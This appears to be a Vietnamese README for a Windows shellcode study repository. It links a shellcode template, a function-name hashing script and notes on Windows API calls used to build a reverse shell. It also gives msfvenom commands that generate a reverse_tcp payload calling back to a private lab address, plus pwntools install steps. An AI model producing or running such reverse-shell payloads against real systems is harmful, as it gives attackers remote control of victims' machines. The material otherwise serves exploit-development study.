 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


Tạo meterpreter:
msfvenom -p windows/custom/reverse_tcp LHOST=192.168.79.128 LPORT=8080 -f exe -o met.exe
msfvenom -p windows/custom/reverse_tcp LHOST=192.168.79.128 LPORT=8080 -f python -b "\x00\x01\x02"

cài pwntool
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
